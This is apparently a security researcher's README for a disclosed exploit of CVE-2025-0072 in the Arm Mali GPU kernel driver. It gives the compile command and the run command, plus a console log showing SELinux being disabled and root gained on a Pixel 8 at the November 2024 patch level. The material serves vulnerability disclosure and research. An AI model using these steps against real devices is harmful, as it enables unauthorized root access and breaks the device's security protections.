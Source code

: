 ## Exploit for CVE-2025-0072

The write up can be found [here](https://github.blog/2025-05-23-bypassing-mte-with-cve-2025-0072). This is a bug in the Arm Mali kernel driver that I reported in December 2024. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the Novmember 2024 patch (`AP3A.241105.007`). It needs to be compiled with OpenCL and linked with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_userio.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_userio
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it fails, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_userio                                     
gpu_addr 5ffff94000
group_handle 1 cookie 30000
group_handle 1 cookie 30000
found entry 4000093deaf443 at 384 in page 0
overwrite addr : 5ffff00c60 c60
overwrite addr : 5fffb00c60 c60
overwrite addr : 5ffff00f40 f40
overwrite addr : 5fffb00f40 f40
run enforce
result 50
clean up
shiba:/ #
```

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.
